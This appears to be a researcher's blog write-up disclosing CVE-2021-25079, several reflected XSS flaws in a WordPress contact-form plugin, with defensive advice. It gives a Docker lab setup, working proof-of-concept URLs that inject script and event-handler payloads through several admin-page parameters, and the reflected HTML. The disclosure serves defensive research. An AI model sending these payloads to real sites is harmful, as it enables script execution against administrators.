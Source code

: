 +++
title = 'CVE-2021-25079 – Multiple Reflected XSS in Contact Form Entries plugin'
date = 2021-05-01T18:54:32+02:00
draft = false
tags = ["sec", "docker", "dsp", "hacking", "cve"]
+++



After the post from last week about CVE-2021-25080 I received another CVE from a similar work on the same plugin. In this case, I found multiple XSS in Contact Entries Plugin: let’s dive into the vulnerability!
## Introduction
CRM Form Entries is a plugin that automatically saves form submissions from several WordPress forms:
[Database for Contact Form 7, WPforms, Elementor forms](https://wordpress.org/plugins/contact-form-entries/)

## Setup environment
I set up a Docker environment containing WordPress with the vulnerable plugin:
```
version: '3.8'
  services:
    wp:
      image: 'dockersecplayground/wp:5.6'
      stdin_open: true
      tty: true
      ports:
        - '11080:80'
        - '9000:9000'
      depends_on:
        - db
      environment:
        - WORDPRESS_DB_HOST=db
        - WORDPRESS_DB_USER=dsp
        - WORDPRESS_DB_PASSWORD=dsp
        - WORDPRESS_DB_NAME=wordpress
      volumes:
        - './xdebug.ini:/usr/local/etc/php/conf.d/xdebug.ini'
    db:
      image: 'dockersecplayground/mysql_dsp:latest'
      stdin_open: true
      tty: true
      environment:
        - MYSQL_DATABASE=wordpress
        - MYSQL_USER=dsp
        - MYSQL_PASSWORD=dsp
        - MYSQL_RANDOM_ROOT_PASSWORD=1
  networks: {}
```

I usually use VS Code to analyze the source code; it is great as it is possible to attach to running containers by using the [Docker plugin](https://code.visualstudio.com/docs/containers/overview) and [Remote Containers plugin](https://marketplace.visualstudio.com/items?itemName=ms-vscode-remote.remote-containers)

## XSS Vulnerability Description

`form_id` param of `vxcf_leads` administrator page is vulnerable to a Reflected Cross-Site-Scripting vulnerability.

## First Evidence
The following request:
```
GET /wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status&tab=entries&search&order=desc&orderby=fir+GET /wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status&tab=entries&search&order=desc&orderby=fir+
```

returns the list of saved entries in the database.
- `form_id` value is reflected in <input> tag. 
- `form_id` parameter is not sanitized, so it is possible to inject arbitrary values.

The following request:


```
http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5e1kpc%22+onmouseover%3Dalert%281%29+ne97l&status&tab=entries&search&order=desc&orderby=fir+ 
```

Allows to inject `onmouseover` inside the input form. 

```
<input class="hide-column-tog" name="cf_5e1kpc\" onmouseover=alert(1) ne97l-vxvx-vxurl-hide" type="checkbox" id="cf_5e1kpc\" onmouseover=alert(1) ne97l-vxvx-vxurl-hide" value="cf_5e1kpc\" onmouseover=alert(1) ne97l-vxvx-vxurl" checked='checked' />Source</label><label>
```

By moving the mouse inside the click element, the vulnerability is triggered. Even if the vulnerability seems to require the user to move the mouse on the input element, it is possible to improve the attack by just injecting a “style” section that expands the input element with large width and height. In this way, when the user clicks on the link, javascript code is executed. 

## Second Evidence

`status` param is vulnerable to most dangerous XSS attack: just send the following request  

```
http://example.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status=b9zrb--%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3Eg482f&tab=entries&search&order=asc&orderby=file-438&field&time&start_date&end_date   
```

will execute XSS vulnerability.

## Third Evidence
`end_date` has the same as Evidence 2: 
```
http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status=&tab=entries&search=&order=asc&orderby=file-438&field=&time=&start_date=&end_date=onobw%22%3e%3cscript%3ealert(1)%3c%2fscript%3ez2u4g 
```

## Other evidences
`order`, `orderby` and `search` parameters are also vulnerable to XSS:  the following request: 

```
http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status&tab=entries&search&order=descxg31c%22accesskey%3d%22x%22onclick%3d%22alert(1)%22%2f%2fd5p60&orderby=fir+ 
```

Is reflected in hidden parameter `<input type=”hidden” name=”order” value=”descxg31c”accesskey=”x”onclick=”alert(1)”//d5p60″ />`

The following request: 

```
http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status&tab=entries&search&order=desc&orderby=fir%20ihj17%22accesskey%3d%22x%22onclick%3d%22alert(1)%22%2f%2fv9tdt
```

is reflected in hidden input: 

```
<!-- wp:paragraph --><p><em> &lt;input type="hidden" name="orderby" value="fir ihj17"accesskey="x"onclick="alert(1)"//v9tdt" /></em></p><!-- /wp:paragraph --><!-- wp:paragraph --><p><em>search param</em>: <em><a href="http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&amp;form_id=cf_5&amp;status=&amp;tab=entries&amp;" target="_blank" rel="noreferrer noopener">http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&amp;form_id=cf_5&amp;status=&amp;tab=entries&amp;</a>search=e67x3%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22oakfc&amp;order=asc&amp;orderby=file-438&amp;field=&amp;time=&amp;start_date=&amp;end_date=<br></em></p><!-- /wp:paragraph -->
```

## Recommendations for Pentesters
The following vulnerability has been found through [Burp Suite Scanner](https://portswigger.net/burp)
I have explored all the website links manually, then I have executed Burp Scanner that found the Reflected Cross-Site Scripting vulnerability.

Burp Scanner is optimal when you have the source code as you can deploy it in the local environment and do not have performance issues.

When you analyze a remote website, maybe it could be not as effective, and you should properly choose the fuzzing payloads.

You can explore where the input is reflected manually, or by scripting through a proxy, such as [MITM Proxy](https://mitmproxy.org/)


## Recommendations for Developers
Sanitize the user input by using safe libraries, or HTML escaping libraries. In WordPress it is possible to use esc_html() function (https://developer.wordpress.org/reference/functions/esc_html/).

Otherwise, OWASP offers a great API developer: https://owasp.org/www-project-enterprise-security-api/https://owasp.org/www-project-enterprise-security-api/










































